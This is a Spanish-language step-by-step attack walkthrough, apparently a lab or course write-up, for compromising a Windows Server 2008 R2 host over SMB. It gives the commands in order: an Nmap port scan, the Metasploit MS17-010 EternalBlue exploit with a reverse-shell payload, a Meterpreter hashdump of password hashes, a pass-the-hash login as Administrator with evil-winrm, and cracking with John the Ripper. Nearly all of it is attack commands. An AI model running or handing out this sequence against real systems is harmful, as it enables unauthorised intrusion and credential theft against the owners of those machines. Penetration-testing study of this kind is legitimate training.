

Roberto
Pasos de Desarrollo
1. Escaneo del Objetivo con Nmap
Comando: nmap -sV -p- <IP del objetivo>
Primero, realizamos un escaneo completo de puertos al objetivo utilizando Nmap. Esto nos
permitirá descubrir puertos abiertos y servicios corriendo, además de obtener información
sobre versiones y posibles vulnerabilidades.

2. Identificación de Vulnerabilidad
Identificamos vulnerabilidad en el puerto 445
Tras el escaneo de Nmap, observamos que el puerto 445 está abierto. Este puerto está asociado con el
protocolo SMB (Server Message Block) en sistemas Windows, lo que puede ser vulnerable a ciertos
exploits conocidos.
Uso de Metasploit en Kali
Instalación de Metasploit (en caso de no tenerlo)
Comando: apt install metasploit-framework
Si no tienes Metasploit instalado en tu sistema Kali, utiliza este comando para instalar el
framework.
Abrir Metasploit Console

Comando: msfconsole
Iniciamos la consola de Metasploit donde interactuaremos con los módulos para explotar la
vulnerabilidad.
4. Búsqueda de Exploit
Comando: search type:exploit rank:average Windows server 2008 R2
En la consola de Metasploit, utilizamos el comando search para buscar el exploit específico que
puede afectar a servidores Windows 2008 R2 a través de SMB. El exploit MS17-010 EternalBlue SMB
Remot es famoso por
atacar esta vulnerabilidad.
5. Selección del Exploit
Comando: use 0
Este comando selecciona el primer exploit en la lista de resultados (o el número correspondiente si
es otro), en este caso el MS17-010 EternalBlue SMB Remot.
6. Configuración del Payload
Comando: set payload
Configuramos el payload que permitirá establecer una conexión inversa entre el objetivo y
nuestra máquina atacante.
7. Configuración de Opciones
Comando: show options
Mostramos las opciones configurables del exploit y del payload. Aquí podemos ver qué parámetros
están requeridos.
Seteamos la IP del objetivo (RHOST)
Comando: set RHOST
Especificamos la dirección IP de la víctima para dirigir el ataque.
Seteamos el puerto del servicio vulnerable (RPORT)
Comando: set RPORT 445
Establecemos el puerto 445, ya que es el puerto que utiliza el servicio SMB en el objetivo.
Seteamos la IP del atacante (LHOST)
Comando: set LHOST
Configuramos nuestra propia IP (la del atacante) para recibir la conexión inversa.
Seteamos el puerto del atacante (LPORT)
Comando: set LPORT 4444
Establecemos el puerto que utilizará la conexión inversa desde el objetivo hacia el atacante. Por
defecto, utilizamos el puerto 4444.
8. Selección del Exploit
Comando: exploit o run
Finalmente, ejecutamos el exploit configurado. Este comando iniciará el ataque y, si es exitoso,
obtendremos una sesión de Meterpreter en el sistema objetivo.
9. Obtención de Hashes
Comando: hashdump
Una vez dentro del sistema, podemos utilizar el comando hashdump para extraer los hashes de las
contraseñas en el formato LM o NTLM.
Uso de Evil-WinRM para Acceso con Hash
1. Instalación de Evil-WinRM>
Comando: apt install evil-winrm
Evil-WinRM es una herramienta que permite establecer sesiones remotas en máquinas Windows a través
de PowerShell. Para instalarlo, ejecutamos este comando.
Instalación de dependencias (Ruby y Git)
Comando: sudo apt install ruby ruby-dev libffi-dev git -y
Instalamos las dependencias necesarias para Evil-WinRM.
2. Uso de Evil-WinRM
Comando: evil-winrm
Iniciamos Evil-WinRM para comenzar a interactuar con el servidor remoto.
Acceso con el hash LM
Comando: evil-winrm -i <IP del objetivo> -u 'Administrator' -H '<Hash LM>'
Instalamos las dependencias necesarias para Evil-WinRM.
1. Uso de John the ripeer
En este caso lo ejecutaremos el comando de john the ripper para poder saber la contraseña del usuario Administrador
que guardamos en un archivo que actualmente es un hash.
Comando : john --format=NT --wordlist='ruta de tu diccionario sin las comillas' 'nombre de tu
archivo que has creado, el que contiene el hash'
Demostración
Si no funciona ir a LINK